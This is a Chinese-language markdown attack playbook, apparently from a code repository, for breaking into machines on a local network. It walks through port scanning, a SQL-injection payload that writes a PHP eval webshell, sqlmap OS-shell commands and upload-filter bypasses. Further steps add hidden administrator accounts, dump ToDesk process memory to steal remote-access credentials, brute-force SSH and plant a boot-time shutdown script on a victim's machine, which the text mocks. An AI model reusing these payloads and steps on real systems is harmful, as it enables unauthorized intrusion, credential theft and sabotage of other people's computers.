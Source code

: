 ### 1. 扫ip

```cmd
//端口号扫描
使用-->御剑端口扫描（3389,80,8080,3306）或者 namp 192.168.71.0/24 --> 扫描c段

1.80端口最重要，通杀端口，找网页的各种漏洞（常见的文件上传，sql注入-->sqlmap的 “--os-shll” / " into file " ），找准机会上传shell，上传成功后，先访问网页，如果页面是空白页面代表路径是对的输入密码直接连。如果是404或者其它代表路径错误，或者shell被删除。

2.3389成功率最低，一般是后面提权后才会使用。
net user hack hack /add
net localgroup administrators hack /add
net localgroup "Remote Desktop Users" hack /add --> (比如说用户不在远程桌面连接组时，使用)

3.3306端口成功率也很低，条件苛刻
处在同一网段，使用Cracke.exe弱口令工具进行爆破，获取密码后使用命令（mysql -u root -h 192.168.1。1 -p），也可以连navicat
而且需要对方允许远程连接

4.8080端口，如果能访问到它的tomcat官方界面，进入后台的网页（有权限，不是403），可以尝试弱口令爆破（默认账号为tomcat tomcat），进去以后找到地方上传shell.war（jsp的shell的压缩的包）然后连接shell

5.22端口:爆破连ssh,成功概率也很低
```

### 2. 扫目录

```php
7k:输入 http：//192.168.71.1/ 选择字典进行目录扫描
hackbar test-->current path
```

### 3. 测试能否访问

```php
//在上一步的基础上，访问那些状态码为200的网页，去找网页的漏洞，如果有shell更好，直接连（连接密码尝试，a,b,c,cmd,shell,1,2,3,word,pass,test,root）
```

### 4. 上传shell

```sql
//sql注入
1.http://192.168.71.45/sqli-labs-master/Less-1/?id=-1' union select 1,2,"<?php @eval($_POST['a']);?>" into outfile "C:/phpstudy_pro/WWW/a.php" --+

2.使用sqlmap --> sqlmap -u "url" --os-shell --level 3  （执行系统命令，权限高的话可以net user /add）
-----sqlmap --> sqlmap -u "url" --sql-shell --level 3 (执行sql语句，可以利用来写shell)

//文件上传漏洞
1.js禁用
2.00截断（windows）
3.空格绕过
4.抓包（改文件类型，文件后缀）
5.图片马（文件包含）
```

###  5.工具连接

`蚁剑`，`godzilla.jar`,`bihind`

```php
//godzilla.jar 可以利用工具生成shell，获取高权限，控制目标机（缺点上传文件不稳定，下载较大的文件时很好用）
//蚁剑 不太安全，但是上传文件方便，不建议使用它的命令行，会报 ret = 1 ，被对方防火墙拦截！

java -jar godzilla.jar
```

###  6. 传文件

```assembly
/*

扩大控制权限，例如使用 第三方程序脚本来执行命令
procdump.exe

以上两个程序缺一不可，传到目标机，然后传一个todesk的安装包给目标机
使用命令 todesk_setup.exe /S 静默安装，但是不好的一点是，安装好了会弹窗！

使用 procdump.exe 
使用 tasklist 查看todesk的pid（有两个todesk，只要类型为server的那个）
然后执行命令：procdump.exe -accepteula -ma 11652(实际的pid) --> 微软自带的获取指定exe文件的数据包（通过蚁剑或者godzilla将dump下来的数据包下载到本地进行分析）
在010Editor里查看16进制编码，使用·Ctrl+F·全局搜索当日的时间戳（例如20240914）

控制好目标机使用电脑的时间，利用空闲时间，上去关防火墙，开3389，新建用户，改配置文件等高权限的操作。。。。。

*/
```

------

# 实战

- 环境:
  - 受害者:`类型不限`
  - 端口扫描工具:`fscan`,`御剑`,`masscan`,`naabu`等
  - 目录扫描工具:`7kbscan-WebPathBrute`
  - 爆破工具:`SNETCracker`
  - shell工具:`蚁剑`,`Godzilla`
  - 其它:`Python3.12`(版本不限),`pycharm`,`procdump`,`010Editor`,`todesk安装包`

> 扫描

```python
import os
import subprocess

# base_ip = "192.168.71."
base_ip = input("请输入需要生成的起始ip地址(例如192.168.71.*):")
last_num = int(base_ip.rsplit('.', 1)[-1])  # 获取最后一个数字 *
base_ip = base_ip.rsplit('.', 1)[0] + '.'  # 获取除了最后一个数字的部分 192.168.71.
ips = [base_ip + str(i) for i in range(last_num, 255)]
# 写入文件
with open("C:/Users/24937/Desktop/ip.txt", "w") as f:
    for ip in ips:
        print(ip)
        f.write(ip + "/n")
print('写入成功!!!')
#
# print(subprocess.run("ipconfig", capture_output=True, encoding='gbk'))
os.system("nmap -sV 192.168.71.0/24")
os.system("fscan.exe -hf C://Users//24937//Desktop//ip.txt -p 80,8080,22,3306,6379,3389,1433,445")

# os.system("D://naabu//naabu.exe -host 192.168.71.21 -p 1-65535")
# os.system("D://masscan//masscan.exe --ports 1-65535 192.168.71.21")
```

<img src="./assets/image-20240921102157340.png" alt="image-20240921102157340" style="zoom: 25%;" />

<img src="./assets/image-20240921102058594.png" alt="image-20240921102058594" style="zoom: 50%;" />

<img src="./assets/image-20240921102032742.png" alt="image-20240921102032742" style="zoom: 25%;" />

![image-20240921103136208](./assets/image-20240921103136208.png)

> 22端口(ssh)

- `ssh`爆破
- ![image-20240921143957747](./assets/image-20240921143957747.png)

- 使用爆破出来的账号密码,连接`ssh`
- ![image-20240921144626430](./assets/image-20240921144626430.png)

> linux创建定时关机恶意脚本,开机则关机

![image-20240921144848588](./assets/image-20240921144848588.png)

![image-20240921144857258](./assets/image-20240921144857258.png)

![image-20240921144930043](./assets/image-20240921144930043.png)

![image-20240921145438677](./assets/image-20240921145438677.png)

- 然后`嘻嘻不嘻嘻`,`reboot`一下,对面`已关机`
- `为什么关机又关机?`

![image-20240921150034753](./assets/image-20240921150034753.png)

------

> 3306端口 (mysql)

![image-20240921150653252](./assets/image-20240921150653252.png)

![image-20240921150748552](./assets/image-20240921150748552.png)

- 这个端口可以使用`into outfile`写shell(得知道绝对路径),大多数同学用的是`8.0`的版本,没有写的权限

------



> 1443端口(sqlserver)
